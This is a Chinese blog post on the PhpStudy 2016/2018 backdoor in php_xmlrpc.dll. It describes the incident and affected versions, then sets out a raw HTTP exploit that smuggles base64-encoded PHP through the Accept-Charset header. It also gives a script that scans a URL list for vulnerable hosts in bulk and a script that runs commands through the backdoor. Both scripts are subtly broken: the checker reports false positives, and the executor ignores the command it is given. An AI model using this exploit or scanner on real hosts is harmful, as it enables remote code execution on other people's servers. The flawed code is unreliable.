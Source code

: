 ﻿---
title: PhpStudy2018后门漏洞预警及漏洞复现&检测和执行POC脚本
date: 2020-06-03 17:44:51
categories: 
- 漏洞复现
tags: 
- 漏洞
- 后门
- POC
- PhpStudy2018
- 漏洞复现Phpstudy介绍
---

## PhpStudy介绍
Phpstudy是国内的一款免费的PHP调试环境的程序集成包，其通过集成Apache、PHP、MySQL、phpMyAdmin、ZendOPtimizer不同版本软件于一身，一次性安装无需配置即可直接使用，具有PHP环境调试和PHP开发功能。由于其免费且方便的特性，在国内有着近百万的PHP语言学习者和开发者用户

## 后门事件
2018年12月4日，西湖区公安分局网警大队接报案，某公司发现公司内有20余台计算机被执行危险命令，疑似远程控制抓取账号密码等计算机数据回传大量敏感信息。通过专业技术溯源进行分析，查明了数据回传的信息种类、原理方法、存储位置，并聘请了第三方鉴定机构对软件中的“后门”进行司法鉴定，鉴定结果是该“后门”文件具有控制计算机的功能，嫌疑人已通过该后门远程控制下载运行脚本实现收集用户个人信息。在2019年9月20日，网上爆出phpstudy存在“后门”。作者随后发布了声明。
于是想起自己安装过phpstudy软件，赶紧查一下是否存在后门文件，结果一看真存在后门，学个PHP真是不容易，软件被别人偷偷安装了后门。

<!--more-->

## 影响版本
目前已知受影响的phpstudy版本
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45

## 后门检测分析
通过分析，后门代码存在于\ext\php_xmlrpc.dll模块中
phpStudy2016和phpStudy2018自带的php-5.2.17、php-5.4.45
phpStudy2016路径
`php\php-5.2.17\ext\php_xmlrpc.dll`
`php\php-5.4.45\ext\php_xmlrpc.dll`
phpStudy2018路径
`PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
`PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`
用notepad打开此文件查找@eval，文件存在`@eval(%s(‘%s’))`证明漏洞存在，如图：
![](1.png)


## phpstudy 2018漏洞复现

启动phpstudy，选择php-5.2.17版本，使用burpsuit抓包（如果是本机127.0.0.1环境，代理去掉本地过滤，否则抓不到包）。

![](2.png)

大佬给出exp如下

``` 
GET /index.php HTTP/1.1
Host: yourip.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.25 Safari/537.36 Core/1.70.3730.400 QQBrowser/10.5.3805.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip,deflate
Accept-Charset:这里就是你要执行的代码命令（经过base64加密）
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
我们修改数据包查看命令`phpinfo();`执行情况

![](3.png)

继续修改数据包查看命令`echo system("net user");`执行情况

![](4.png)


漏洞复现成功
ps：我复现的时候这里有一个坑，就是直接repeater过来的数据包`Accept-Encoding`字段的参数是`gzip, deflate`,`deflate`前面有一个空格，去掉就可以成功执行命令了

## 后门检测脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import gevent
from gevent import monkey

gevent.monkey.patch_all()
import requests as rq


def file_read(file_name="url.txt"):
    with open(file_name, "r") as f:
        return [i.replace("\n", "") for i in f.readlines()]


def check(url):
    '''
    if "http://" or "https://" not in url:
        url = "https://" + url
    '''
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'ZWNobyBlZVN6eHU5Mm5JREFiOw==',  # 输出 eeSzxu92nIDAb
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    try:
        res = rq.get(url, headers=headers, timeout=20)
        if res.status_code == 200:
            if res.text.find('eeSzxu92nIDAb'):
                print("[存在漏洞] " + url)
    except:
        print("[超时] " + url)


if __name__ == '__main__':
    print("phpStudy 批量检测 (需要 gevent,requests 库)")
    print("使用之前，请将URL保存为 url.txt 放置此程序同目录下")
    input("任意按键开始执行..")
    tasks = [gevent.spawn(check, url) for url in file_read()]
    print("正在执行...请等候")
    gevent.joinall(tasks)
    wait = input("执行完毕 任意键退出...")

```

## 后门执行脚本

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import requests
import base64


def backdoor(url, command="system('calc.exe');"):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36 Edg/77.0.235.27',
        'Sec-Fetch-Mode': 'navigate',
        'Sec-Fetch-User': '?1',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Sec-Fetch-Site': 'none',
        'accept-charset': 'c3lzdGVtKCdjYWxjLmV4ZScpOw==',
        'Accept-Encoding': 'gzip,deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
    }
    command = base64.b64encode(command.encode('utf-8'))
    command = str(command, 'utf-8')
    result = requests.get(url, headers=headers, verify=False)
    if result.status_code == "200":
        print("执行完成")
    a = input("任意键退出...")


url = input("输入URL(例如:http://127.0.0.1:228/xx.php)\n")
command = input("输入命令 默认为 system('calc.exe'); (不想输入直接回车)\n")
backdoor(url, command)

```

## 参考
PhpStudyGhost后门供应链攻击事件及相关IOC
https://www.freebuf.com/column/214946.html
PHPStudy后门分析+复现&附批量Py脚本
https://mp.weixin.qq.com/s/Y29wifB6XTDcJN-RPDMwxg
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
Phpstudy官网于2016年被入侵，犯罪分子篡改软件并植入后门
https://mp.weixin.qq.com/s/CqHrDFcubyn_y5NTfYvkQw
phpstudy后门文件分析以及检测脚本
https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
phpStudy隐藏后门预警
https://www.cnblogs.com/0daybug/p/11571119.html